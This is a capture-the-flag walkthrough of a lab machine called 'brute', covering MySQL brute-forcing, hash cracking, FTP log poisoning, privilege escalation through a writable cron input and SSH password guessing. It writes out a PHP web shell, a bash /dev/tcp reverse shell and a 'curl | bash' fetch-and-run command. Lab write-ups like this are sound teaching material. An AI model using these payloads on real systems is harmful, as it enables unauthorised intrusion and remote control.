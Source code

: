 
+++
title = "brute"
date = 2024-10-15T21:20:16
draft = false
tags = ["bruteforce", "log poisoning"]
+++


Recon : 
a quick ping to verify the target is up. ![2024-02-03_20-15.png](/images/2024-02-03_20-15.png)

the target is up, will run a quick rust scan on the target to find open ports. 

![2024-02-03_22-14.png](/images/2024-02-03_22-14.png)

4 open ports, 21,22,80,3306

will run nmap scan to identify the services and versions running on those ports. 
![2024-02-03_22-17.png](/images/2024-02-03_22-17.png)

the results shows FTP, SSH AND HTTP and MYSQL and their respective versions.

Enumeration: 

Started enumeration with the ftp server, will attempt to login with an anonymous user. 
![2024-02-03_20-27.png](/images/2024-02-03_20-27.png)

Seems like, it does not permit anonymous login, will go back to that, will continue further enumeration with the web server running on port 80. Visiting the site on the web browser shows a simple login portal with username and password field. Viewed the source code, enumerated more and did not get anything. Also attempted couple of some default credentials. Were all futile. 

Also, i could try to bruteforce different services, but there are no usernames yet. Further enumeration to my mysql server, attempt to bruteforce mysql with hydra was successful atleast for now until credentials confirmed correct.

![2024-02-03_22-21.png](/images/2024-02-03_22-21.png)

Now, will login with the credentials. 


![2024-02-03_22-24.png](/images/2024-02-03_22-24.png)

and it was successful. 

Further enumeration on the mysql server. 

![2024-02-03_22-27.png](/images/2024-02-03_22-27.png)

after enumerating the database, got a username and a password hash, 

was able to crack the hash with john the ripper. ![2024-02-03_22-37.png](/images/2024-02-03_22-37.png)

Back to the web portal, will attempt the credentials.![2024-02-03_22-57.png](/images/2024-02-03_22-57.png)

and it was successful. 

There is an option to view log file which contains logs of attempted failed login to the ftp server. 
![2024-02-03_23-04.png](/images/2024-02-03_23-04.png)

That seems like there might be log poisoining, since the site run on php.

one way to find out, try!

attempt to login to the ftp server again and use this php code that calls system function. 

```txt
<?php system($_GET['cmd']); ?>
```


and try to view it in the website again. 

![2024-02-06_19-44.png](/images/2024-02-06_19-44.png)

Now, there is response back and it seems the www-data is the current user running.  

Further enumeration to get reverse shell, after confirming there is command execution, next is to get reverse shell with whatever method you prefer but i will create a payload `/bin/bash -i >& /dev/tcp/ip/port 0>&1` and save on local machine, create a simple python webserver to host the file, do not forget the netcat listener and run the following command with curl.

`curl url | bash` e.g curl http://ip/exploit | bash 

![2024-02-06_22-08_1.png](/images/2024-02-06_22-08_1.png)

and there should be a connection back. 

![2024-02-06_22-08.png](/images/2024-02-06_22-08.png)

further enumeration to escalate privileges to the user adrian. 

Poking in user adrian home directory, there are files, but the user currently running do not have permission to view but can view .reminder which seems to be a type of rule which is best64 that can be used when generating wordlists using hashcat or johntheripper, then in the last part, it shows + exclamation which means for each generated word, there must be an exclamation mark at the end. Perhaps, can be used to bruteforce ssh or any other services. 

To generate the potential passwords, add the word ettubrute to a file then type this :

john -wordlist:adrian.txt -rules:best64 -stdout > potentials



![2024-02-06_22-37.png](/images/2024-02-06_22-37.png)

Now, adding the exclamation marks. To save myself the stress, created a script in python that would do that. 

![2024-02-06_22-47.png](/images/2024-02-06_22-47.png)

Now, attempting to bruteforce ssh with the potential passwords available.  

After brute-forcing, finally got the password, 

![2024-02-06_23-11_1.png](/images/2024-02-06_23-11_1.png)


now can proceed to login. 

![2024-02-06_23-11.png](/images/2024-02-06_23-11.png)

Successfully logged in, now the user flag can be accessed. 

![2024-02-06_23-14.png](/images/2024-02-06_23-14.png)

Now further enumeration to escalate privileges to the root user. 

In the user adrian home directory, there are 2 files punch_in and punch_in.sh 

Let's do some analysis on it. 

viewing both files, ![2024-02-06_23-28.png](/images/2024-02-06_23-28.png)

![2024-02-06_23-54.png](/images/2024-02-06_23-54.png)

punch_in.sh file runs every minute and updates the punch_in file with current time. We have write permissions on punch_in and read-only permissions on punch_in.sh file.

Under FTP directory, there are some more files too.


![2024-02-07_00-07.png](/images/2024-02-07_00-07.png)


it seems like, the script file under /FTP/files takes the last line of the punch_in file and executing it using /bin/sh  
Using the punch_in file, since the current user has write permissions to it, can modify the permissions on any files

modify the punch_in file to have a reverse shell and set up a netcat listener. After that, will play the waiting game. 


![2024-02-07_17-56.png](/images/2024-02-07_17-56.png)

and there is the reverse connection back and also the flag! 


End. 


